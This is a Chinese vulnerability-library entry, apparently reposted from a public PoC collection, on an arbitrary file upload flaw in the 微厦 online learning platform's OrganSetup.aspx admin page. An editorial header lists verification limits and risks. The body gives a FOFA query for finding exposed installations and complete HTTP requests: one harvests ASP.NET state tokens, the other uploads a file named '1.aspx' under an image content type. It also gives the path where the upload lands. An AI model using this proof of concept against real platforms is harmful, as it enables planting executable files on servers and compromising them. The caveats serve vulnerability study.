



# 微厦在线学习平台 OrganSetup Logo上传ASPX

## 条目说明

- 对象与具体问题：微厦在线学习平台；OrganSetup Logo上传ASPX
- 版本、配置及部署条件：WebForms状态/事件验证与上传目录解析；版本未知
- 认证与权限前提：POST含admincode和Session，后台身份明显待核
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 先GET取VIEWSTATE/EVENTVALIDATION步骤有价值，但POST还依赖admincode，不能省略后台权限条件
- 上传内容123不能验证ASPX执行；只是后缀写入声称，需响应和访问文字
- 表单同时提交平台名/ICP/注册验证设置等可能修改组织配置，复现不只上传且缺恢复
- VIEWSTATE/事件数据当不透明状态保留不反序列化；随机路径应从结果取
- HTML锚点/标题级别杂乱，补版本/修复

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行；命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

### 微厦在线学习平台OrganSetup存在任意文件上传漏洞

<a name="TDLmQ"></a>
微厦在线学习云服务平台是一款基于B/S架构的在线教育系统，系统将在线学习、在线练习、在线考试紧密相联，打造“学、练、考”于一体的在线教育系统，方便学员利用碎片化时间进行随时随地的学习。 微厦在线学习平台OrganSetup存在任意文件上传漏洞，该漏洞产生的原因是页面文件上传功能模块未限制文件上传的类型所致，攻击者可利用漏洞上传任意文件。
<a name="emywd"></a>
## 二、影响版本

- 微厦在线学习平台
<a name="osOKJ"></a>
## 三、资产测绘

- fofa`body="/Utility/CoreScripts/Widget.js"`
- 特征


<a name="tfrdv"></a>
## 四、漏洞复现

1. 获取`__VIEWSTATE`和`__EVENTVALIDATION`
```http
GET /Manage/Admin/OrganSetup.aspx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
```



2. 通过上一步获取的`__VIEWSTATE`和`__EVENTVALIDATION`替换后，上传文件
```http
POST /Manage/Admin/OrganSetup.aspx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------286092866711427024533444908228
Content-Length: 3614
Connection: close
Cookie: stOnlineNumx=189; ASP.NET_SessionId=opim4u53mjzvbgoljz2haqwb; admincode=4cdcf18ba72a7b28dc405b992f8cddcd
Upgrade-Insecure-Requests: 1

-----------------------------286092866711427024533444908228
Content-Disposition: form-data; name="__VIEWSTATE"

/wEPDwUJNDA4NTQ0MTE3D2QWAmYPZBYCAgMQFgIeB2VuY3R5cGUFE211bHRpcGFydC9mb3JtLWRhdGFkFgICAQ9kFggCAQ8PFgIeBFRleHQFAnd4ZGQCAg8PFgIfAQUGbmV0LmNuZGQCBg8WAh4Dc3JjBRwvVXBsb2FkL09yZy80X1FyQ29kZUxvZ28ucG5nZAIKDxYCHwIFIi9VcGxvYWQvT3JnLzIwMjQwNTExMTI0OTEyNTc1MC5wbmdkGAEFHl9fQ29udHJvbHNSZXF1aXJlUG9zdEJhY2tLZXlfXxYGBRljdGwwMCRjcGhNYWluJGNiUXJDb2RlSW1nBRxjdGwwMCRjcGhNYWluJGNiSXNSZWdUZWFjaGVyBRxjdGwwMCRjcGhNYWluJGNiSXNSZWdTdHVkZW50BR9jdGwwMCRjcGhNYWluJGNiSXNWZXJpZnlUZWFoY2VyBR9jdGwwMCRjcGhNYWluJGNiSXNWZXJpZnlTdHVkZW50BR5jdGwwMCRjcGhNYWluJGNiSXNUcmFuaW5nTG9naW4XwDNAV+ZrEETfEtS7I06DP27E1Ue95vMfV7lK7B4pSA==
-----------------------------286092866711427024533444908228
Content-Disposition: form-data; name="__VIEWSTATEGENERATOR"

B81C8FAF
-----------------------------286092866711427024533444908228
Content-Disposition: form-data; name="__EVENTVALIDATION"

/wEdABuXaZiIoX5gkQRvpF+2vQ1CScjH4FFxAL+q4ikvLb0TbSiWUJN9ewejftZN9NIRAZX8aOtXKKXMs4QwiK7tN3gtzihlgKCbI0tOkOamx+rqIhHCHm4RWkFr+a7clSFrmCpT4H5AYBZWD7y6ZnyuYB3wY9S4hf/bSSiOFKbV8VtV+o/lBZVSldKXr63E+Da/Ksk9OyH/Pd1N/JheGeToMPcB512IH1WCLIOrwXUR5JAN8jZQlA012L+yVy6B2bVhsHRzBu3QIS1yhvK544/l15LleUfW6CS8LTlkV7ql5wks9UDmnWWs9n4CICssLcmek6WlGfPbaDlTV/qBU29Pg5LbEMtB73No2hK5uVkpHc5v6Su9Km7kpM4hPQiBs3qbphapVgU6eZvs6enycTR/SccY2QVQ1xafrB+nmau2RuS8oV6UpkC/qEKYpECUsLP/4kcZiCWzyQOdiFBPB3/S77l/pExTxwAd0OseRHgvXu4R5kLJ9zJhvPDeyll0gaN5/QndXVRdTquB1CKakTnbk7C2PjLy0sA2hNcT9aDiwRuR0OQ8KCMWCCyvM/z1yLlzyfGq4Ybqnh1PXRuwBSxfbkjJdvRUxmjpy6h1MF/eY+nsjQ==
-----------------------------286092866711427024533444908228
Content-Disposition: form-data; name="ctl00$cphMain$Org_PlatformName"


-----------------------------286092866711427024533444908228
Content-Disposition: form-data; name="ctl00$cphMain$Org_ICP"


-----------------------------286092866711427024533444908228
Content-Disposition: form-data; name="ctl00$cphMain$tbQrColor"

#004a80
-----------------------------286092866711427024533444908228
Content-Disposition: form-data; name="ctl00$cphMain$cbQrCodeImg"

on
-----------------------------286092866711427024533444908228
Content-Disposition: form-data; name="ctl00$cphMain$fuQrCenter"; filename=""
Content-Type: application/octet-stream


-----------------------------286092866711427024533444908228
Content-Disposition: form-data; name="ctl00$cphMain$Org_QrCodeUrl"


-----------------------------286092866711427024533444908228
Content-Disposition: form-data; name="ctl00$cphMain$fuLoad"; filename="1.aspx"
Content-Type: image/png

123
-----------------------------286092866711427024533444908228
Content-Disposition: form-data; name="ctl00$cphMain$btnLogo"

1
-----------------------------286092866711427024533444908228
Content-Disposition: form-data; name="ctl00$cphMain$cbIsVerifyTeahcer"

on
-----------------------------286092866711427024533444908228
Content-Disposition: form-data; name="ctl00$cphMain$cbIsVerifyStudent"

on
-----------------------------286092866711427024533444908228
Content-Disposition: form-data; name="ctl00$cphMain$ddlQscale"

7
-----------------------------286092866711427024533444908228
Content-Disposition: form-data; name="ctl00$cphMain$Org_Keywords"


-----------------------------286092866711427024533444908228
Content-Disposition: form-data; name="ctl00$cphMain$Org_Description"


-----------------------------286092866711427024533444908228
Content-Disposition: form-data; name="ctl00$cphMain$Org_Extracode"


-----------------------------286092866711427024533444908228--

```

> 请求长度说明：原资料 Content-Length 为 3614；保留原始标头；其数值未据实际请求体重新计算或验证。

<br />文件位置
```
/Upload/Org/202405111247022210.aspx
```



---

> 来源：wy876 漏洞文库（https://github.com/wy876/POC (备份镜像 DMW11525708/wiki)）
